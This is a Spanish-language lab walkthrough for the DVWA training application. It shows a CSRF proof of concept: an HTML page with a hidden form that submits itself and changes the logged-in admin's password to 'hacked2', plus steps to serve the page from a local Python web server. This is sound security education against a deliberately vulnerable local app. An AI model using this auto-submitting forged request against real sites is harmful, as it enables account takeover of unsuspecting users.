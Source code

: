 ## 🧾 ¿Por qué esto es importante?

Este mecanismo impide que un atacante externo pueda hacer una petición sin conocer el token. Pero si el atacante puede leer el HTML (por ejemplo, mediante XSS), puede extraer el token y lanzar el ataque.

## 🧠 ¿Y el PoC HTML?

1. Abrimos la terminal y creamos el archivo:

```bash
nano dvwa_csrf_medium_poc.html
```

2. Cuando se abra el editor de texto nano, creamos el HTML:

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="http://127.0.0.1:8080/vulnerabilities/csrf/" method="GET">
      <input type="hidden" name="password_new" value="hacked2">
      <input type="hidden" name="password_conf" value="hacked2">
      <input type="hidden" name="Change" value="Change">
    </form>
    <script>
      document.forms[0].submit();
    </script>
    <h1>😼 ¡Tu contraseña ha sido cambiada sin que lo sepas!</h1>
  </body>
</html>
```

Puedes abrir este archivo en el navegador mientras estás autenticado en DVWA como admin, y si todo va bien, la contraseña se cambiará automáticamente.

3. Ejecutamos el PoC en el navegador sirviendolo desde un servidor local:

Esto es útil cuando queremos simular que el ataque viene desde otro sitio web.

3.1 Vamos al directorio donde guardamos el archivo.

```bash
cd /home/javier
```

3.2 Lanzamos el servidor web con Python:

```bash
python3 -m http.server 8000
```

3.3 Abrimos el navegador y visitamos:

```codigo
http://127.0.0.1:8000/dvwa_csrf_medium_poc.html
```
